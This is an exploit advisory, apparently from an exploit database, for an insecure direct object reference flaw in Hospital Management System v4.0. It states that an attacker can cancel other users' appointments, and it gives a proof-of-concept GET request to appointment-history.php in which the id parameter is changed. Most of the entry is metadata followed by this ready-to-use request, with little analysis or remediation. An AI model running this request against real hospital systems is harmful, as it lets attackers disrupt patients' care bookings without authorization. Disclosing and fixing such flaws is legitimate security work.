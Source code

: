 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker user to cancel the appointment that is booked by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /hospital/hms/appointment-history.php?id=6(CHANGE HERE)&cancel=update HTTP/1.1
...
```






